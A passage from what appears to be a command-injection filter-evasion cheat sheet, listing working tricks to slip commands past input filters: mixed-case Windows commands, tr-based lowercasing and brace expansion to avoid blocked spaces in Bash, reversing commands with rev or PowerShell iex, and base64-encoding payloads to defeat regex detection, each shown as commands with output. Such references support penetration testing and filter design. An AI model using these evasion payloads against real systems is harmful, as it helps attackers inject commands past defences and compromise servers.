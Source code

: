 In Windows commands are case-insensitive, so different combinations can be tried out.

```powershell
whOAMi
x7331
```

In Linux we need a different approach.

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
x7331
# if spaces are blocked
$({tr,"[A-Z]","[a-z]"}<<<"WhOaMi")
x7331
```

### Reversing

Linux.

```bash
echo 'whoami' | rev
imaohw
$(rev<<<'imaohw')
x7331
# in one line
$(rev<<<$(echo${IFS}'whoami'|rev))
x7331
```

Windows (PowerShell).

```powershell
# reverse command
"whoami"[-1..-20] -join ''
imaohw
# execute command
iex "$('imaohw'[-1..-20] -join '')"
x7331
```

### Encoding

Encoding the payload can be useful for simple pattern-matching evasion. For instance, regex patterns will have a hard time identifying bash commands in the encoded string. This is also useful if the server URL-encodes certain characters.

```bash
# encode the payload
echo "whoami" | base64
d2hvYW1pCg==
# inject the encoded payload using command substitution
$(echo d2hvYW1pCg== | base64 -d)
x7331
```
